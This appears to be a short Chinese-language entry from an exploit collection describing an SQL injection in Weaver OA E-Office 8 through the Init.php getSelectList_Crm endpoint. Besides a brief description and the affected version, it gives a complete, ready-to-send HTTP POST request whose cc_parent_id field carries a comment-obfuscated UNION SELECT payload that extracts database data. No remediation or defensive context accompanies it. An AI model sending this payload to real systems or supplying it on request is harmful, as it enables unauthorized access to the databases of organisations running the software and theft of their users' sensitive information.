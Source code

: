 **漏洞描述：**

泛微OA E-Office group_xml.php的Init.php接口存在SQL注入漏洞，攻击者可获取用户敏感信息。

**影响版本：**

泛微OA E-Office 8

**Payload：**

```jsx
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: host
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

cc_parent_id=-999 /*!50000union*/ /*!50000select*/ 1,user()#
```

---
